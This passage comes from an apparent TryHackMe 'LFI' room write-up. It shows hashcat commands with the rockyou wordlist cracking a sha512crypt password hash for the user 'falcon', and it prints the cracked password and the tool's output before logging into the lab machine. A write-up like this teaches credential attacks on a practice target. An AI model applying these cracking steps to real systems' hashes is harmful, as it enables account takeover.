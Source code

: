 ### Hashcat 

Use hashcat to crack sha512 hash , I came to know that it's a sha512 by looking at the fromat of it

```
hashcat -h | grep sha512
  21000 | BitShares v0.x - sha512(sha512_bin(pass))        | Raw Hash
   1710 | sha512($pass.$salt)                              | Raw Hash, Salted and/or Iterated
   1720 | sha512($salt.$pass)                              | Raw Hash, Salted and/or Iterated
   1740 | sha512($salt.utf16le($pass))                     | Raw Hash, Salted and/or Iterated
   1730 | sha512(utf16le($pass).$salt)                     | Raw Hash, Salted and/or Iterated
  20200 | Python passlib pbkdf2-sha512                     | Generic KDF
   6500 | AIX {ssha512}                                    | Operating System
   1800 | sha512crypt $6$, SHA512 (Unix)                   | Operating System
  21600 | Web2py pbkdf2-sha512                             | Framework
root@kali:~# hashcat -a 0 --user -m 1800 ^C
root@kali:~# cd TryHackMe/Easy/LFI
root@kali:~/TryHackMe/Easy/LFI# hashcat -a 0 --user -m 1800 hash /usr/share/wordlists/rockyou.txt

```
Here --user tells that your hash contains a username so you want it to be ignored
After waiting for sometime it will show you this output

```
$6$xQmTDVmT$hgSLG3ebs.8Tc/F4qqXNnvBBnG736EWpWKaprFVARjAsZ6JyoL4WaJdGv5.qddMWF4/MoJgN6Hekri8wyJ97k/:password09
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$xQmTDVmT$hgSLG3ebs.8Tc/F4qqXNnvBBnG736EWpWKaprFV...yJ97k/
Time.Started.....: Wed Nov  4 09:45:38 2020 (30 secs)
Time.Estimated...: Wed Nov  4 09:46:08 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      625 H/s (12.84ms) @ Accel:16 Loops:512 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 18752/14344385 (0.13%)
Rejected.........: 0/18752 (0.00%)
Restore.Point....: 18688/14344385 (0.13%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4608-5000
Candidates.#1....: soldado -> ladeda


```
In order to show the password

```
root@kali:~/TryHackMe/Easy/LFI# hashcat -a 0 --user --show -m 1800 hash /usr/share/wordlists/rockyou.txt
falcon:$6$xQmTDVmT$hgSLG3ebs.8Tc/F4qqXNnvBBnG736EWpWKaprFVARjAsZ6JyoL4WaJdGv5.qddMWF4/MoJgN6Hekri8wyJ97k/:password09
```
Now we can login into the box
